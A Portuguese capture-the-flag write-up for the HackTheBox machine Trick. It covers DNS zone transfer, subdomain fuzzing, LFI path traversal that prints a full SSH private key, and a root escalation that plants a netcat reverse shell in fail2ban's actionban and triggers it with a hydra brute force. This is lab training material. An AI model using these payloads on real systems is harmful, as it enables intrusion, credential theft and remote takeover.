 # TRICK

# Dificuldade : Fácil

<h1>Dessa vez um CTF de dificuldade fácil, porém, diria que foi extremamente interessante entender o processo de escalar privilégio usado para resolver a flag root.</h1>

A maquina é a [TRICK](https://app.hackthebox.com/machines/Trick).

Enumeração #1:

Iniciando com aquele nmap basico.

```
nmap -p- -sS --min-rate 5000 -vvv -n -Pn -oN allports 10.10.11.166
 PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
25/tcp open  smtp    syn-ack ttl 63
53/tcp open  domain  syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
...
```

#Pagina porta 80

![Untitled](https://user-images.githubusercontent.com/32500664/188253767-dbadcf19-5ba8-4d13-9eb2-d5feb3024a5f.png)

Eu tentei tentei e tentei achar alguma brecha nessa pagina e algum diretório fora do “comum” porém sem sucesso ;(. 

#SMTP

Usei alguns script do nmap usando o `nmap -p25 --script "smtp*" -oN smtp {ip}`. Infelizmente mais uma porta aberta seguida de uma portada na cara…

Sem sucesso nas portas abertas e nem uma brechinha na pagina web… Vamos “cavar” mais fundo…

Usando o comando `dig axfr @10.10.11.166 trick.htb`

```bash
; <<>> DiG 9.18.4 <<>> axfr @10.10.11.166 trick.htb
; (1 server found)
;; global options: +cmd
trick.htb.              604800  IN      SOA     trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
trick.htb.              604800  IN      NS      trick.htb.
trick.htb.              604800  IN      A       127.0.0.1
trick.htb.              604800  IN      AAAA    ::1
preprod-payroll.trick.htb. 604800 IN    CNAME   trick.htb.
trick.htb.              604800  IN      SOA     trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
```

Acho que achamos o X 🦜. D**ois subdomínios para adicionar ao etc/host. O root é inútil, pois é a mesma página. Por outro lado, o “preprod-payrool” tem uma página de login. Tentei injeção sql utilizando SQLmap no formulário de login do site mas nada positivo... Pensei na possibilidade de existir mais alguns subdominios como preprod-XYZW.**

adicionando o `trick.htb ao arquivo /etc/hosts que tem como função, função de mapear um nome para um endereço IP. E é um dos primeiros a ser verificado assim que a URL é digitada.`

Depois de adicionado usando o FFUF para “fuzzar” o Header Host: afim de verificar qual passa pela requisição.

```bash
ffuf -w /wordlist/Dirb/big.txt/:FUZZ -u http://trick.htb/ -H 'Host: preprod-FUZZ.trick.htb' -v -fs 5480

[Status: 200, Size: 9660, Words: 3007, Lines: 179]
| URL | http://trick.htb/
    * FUZZ: marketing
```

# Acesso não autorizado, Autorizado! Ué ?

Depos de adicionar o novo dominio descoberto ao arquivo /etc/hosts podemos acessar uma pagina bastante interessante… Quando você seleciona qualquer aba no menu de navegação, a url muda para `index.php?page=about.html` . Isso é abre brechas para testes que se positivos (pra mim, pro cliente nem tanto…) permitem um LFI. Usando uma wordlists da seclist com o ffuf para automatizar esse fuzzing…

```bash
ffuf -w /home/sant/wordlist/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u http://preprod-marketing.trick.htb/index.php\?page\=FUZZ -v -fs 0

[Status: 200, Size: 2351, Words: 28, Lines: 42, Duration: 150ms]
| URL | http://preprod-marketing.trick.htb/index.php?page=....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd
    * FUZZ: ....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd

```
Depois que o primeiro resultado der positivo pode parar a ferramenta (CTRL + C) QUE 1 TÁ BOM :)
```

![Untitled 1](https://user-images.githubusercontent.com/32500664/188253769-914dbf3a-8599-48b9-bab1-9299e6ff3a41.png)

Temos um nome de um usuário…

Utilizando o comando curl pra pegar a arquivo que contem a chave privada do usuário michael.

```bash
$curl http://preprod-marketing.trick.htb/index.php\?page\=....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//home/michael/.ssh/id_rsa

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAwI9YLFRKT6JFTSqPt2/+7mgg5HpSwzHZwu95Nqh1Gu4+9P+ohLtz
c4jtky6wYGzlxKHg/Q5ehozs9TgNWPVKh+j92WdCNPvdzaQqYKxw4Fwd3K7F4JsnZaJk2G
YQ2re/gTrNElMAqURSCVydx/UvGCNT9dwQ4zna4sxIZF4HpwRt1T74wioqIX3EAYCCZcf+
4gAYBhUQTYeJlYpDVfbbRH2yD73x7NcICp5iIYrdS455nARJtPHYkO9eobmyamyNDgAia/
Ukn75SroKGUMdiJHnd+m1jW5mGotQRxkATWMY5qFOiKglnws/jgdxpDV9K3iDTPWXFwtK4
1kC+t4a8sQAAA8hzFJk2cxSZNgAAAAdzc2gtcnNhAAABAQDAj1gsVEpPokVNKo+3b/7uaC
DkelLDMdnC73k2qHUa7j70/6iEu3NziO2TLrBgbOXEoeD9Dl6GjOz1OA1Y9UqH6P3ZZ0I0
+93NpCpgrHDgXB3crsXgmydlomTYZhDat7+BOs0SUwCpRFIJXJ3H9S8YI1P13BDjOdrizE
hkXgenBG3VPvjCKiohfcQBgIJlx/7iABgGFRBNh4mVikNV9ttEfbIPvfHs1wgKnmIhit1L
jnmcBEm08diQ716hubJqbI0OACJr9SSfvlKugoZQx2Iked36bWNbmYai1BHGQBNYxjmoU6
IqCWfCz+OB3GkNX0reINM9ZcXC0rjWQL63hryxAAAAAwEAAQAAAQASAVVNT9Ri/dldDc3C
aUZ9JF9u/cEfX1ntUFcVNUs96WkZn44yWxTAiN0uFf+IBKa3bCuNffp4ulSt2T/mQYlmi/
KwkWcvbR2gTOlpgLZNRE/GgtEd32QfrL+hPGn3CZdujgD+5aP6L9k75t0aBWMR7ru7EYjC
tnYxHsjmGaS9iRLpo79lwmIDHpu2fSdVpphAmsaYtVFPSwf01VlEZvIEWAEY6qv7r455Ge
U+38O714987fRe4+jcfSpCTFB0fQkNArHCKiHRjYFCWVCBWuYkVlGYXLVlUcYVezS+ouM0
fHbE5GMyJf6+/8P06MbAdZ1+5nWRmdtLOFKF1rpHh43BAAAAgQDJ6xWCdmx5DGsHmkhG1V
PH+7+Oono2E7cgBv7GIqpdxRsozETjqzDlMYGnhk9oCG8v8oiXUVlM0e4jUOmnqaCvdDTS
3AZ4FVonhCl5DFVPEz4UdlKgHS0LZoJuz4yq2YEt5DcSixuS+Nr3aFUTl3SxOxD7T4tKXA
fvjlQQh81veQAAAIEA6UE9xt6D4YXwFmjKo+5KQpasJquMVrLcxKyAlNpLNxYN8LzGS0sT
AuNHUSgX/tcNxg1yYHeHTu868/LUTe8l3Sb268YaOnxEbmkPQbBscDerqEAPOvwHD9rrgn
In16n3kMFSFaU2bCkzaLGQ+hoD5QJXeVMt6a/5ztUWQZCJXkcAAACBANNWO6MfEDxYr9DP
JkCbANS5fRVNVi0Lx+BSFyEKs2ThJqvlhnxBs43QxBX0j4BkqFUfuJ/YzySvfVNPtSb0XN
jsj51hLkyTIOBEVxNjDcPWOj5470u21X8qx2F3M4+YGGH+mka7P+VVfvJDZa67XNHzrxi+
IJhaN0D5bVMdjjFHAAAADW1pY2hhZWxAdHJpY2sBAgMEBQ==
-----END OPENSSH PRIVATE KEY-----
```

Copie toda chave para seu computador criando o arquivo usado para acessar a conta de michael…

```bash
echo "{cole a chave aqui dentro entre aspas}" > id_rsa
```

Apos criar o arquivo id_rsa… De permissões para que seja legivel no momento do login com ssh

`chmod 600 id_rsa`

e em seguida use a chave para logar com o usuário michael

`ssh -i id_rsa michael@{IP da maquina HTB}`

e funciona !!!

![Untitled 2](https://user-images.githubusercontent.com/32500664/188253806-8e7946e9-472d-424b-a360-b1b5d9535483.png)

# FLAG USER

![Untitled 3](https://user-images.githubusercontent.com/32500664/188253813-b54915db-8733-4fd2-b919-ad112c3871d2.png)

# FLAG ROOT

Uma vez dentro o comum seria executar o comando `sudo -l` para verificar se o usuário que estamos logados possuem algum privilégio, e temos!!

```bash
michael@trick:~$ sudo -l
Matching Defaults entries for michael on trick:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User michael may run the following commands on trick:
    (root) NOPASSWD: /etc/init.d/fail2ban restart
```

fail2ban é um software que tem como função banir o IP de quem falha muitas vezes o login ao SSH.

E pesquisando é possivel encontrar artigos sobre o escalonamento de privilégios utilizando essa ferramenta como fonte.

Basicamente temos que editar o arquivo **`/etc/fail2ban/action.d/iptables-multiport.conf`** que é responsavel por guardar os comandos executados pelo root quando ele banir alguem…

Como o dono do arquivo é o root não podemos editar-lo, porém, podemos substitui-lo.

```bash
#Vamos copiar o arquivo para o diretório que estamos.

$ cp /etc/fail2ban/action.d/iptables-multiport.conf .

#E edita-lo com o nano/vim (dependendo do qual você usar... Somos possiveis amigos)
... (Vamos editar o comando `actionban` para conseguir shell como root)
actionban =  rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {Seu ip tun0} 4242 >/tmp/f
...
#CTRL + X seguido de Y + Enter para salvar.
#Criamos nosso arquivo "bomba" agora só substituir pelo arquivo original.

$ mv iptables-multiport.conf /etc/fail2ban/action.d/iptables-multiport.conf

#O mv vai perguntar se você quer substituir... Você digita "y" e dá enter

$ mv: replace '/etc/fail2ban/action.d/iptables-multiport.conf', overriding mode 0644 (rw-r--r--)? y

#Executando comando como root para reiniciar o fail2ban

$ sudo /etc/init.d/fail2ban restart
```

#Agora é só forçar ele a executar o comando… Como fazemos isso ? TOMANDO BAN por merecimento.

Abre uma outra aba no seu terminal ou “splita” ele no meio e escuta a porta que vai receber a reverse shell: (no meu caso a 4242)

`nc -nvlp 4242`

E TOMA-LE BAN

`hydra -l michael -P /home/sant/wordlist/rockyou.txt ssh://10.10.11.166`

Esse comando inicia um ataque de força bruta ao ssh da maquina e em questão de segundos recebemos a shell de root

```bash
$ nc -lvp 4242
Connection from 10.10.11.166:49380
/bin/sh: 0: can't access tty; job control turned off
$ whoami
root
$ cd /root
$ cat root.txt
!!!!!! FLAG ROOT !!!!!!
```
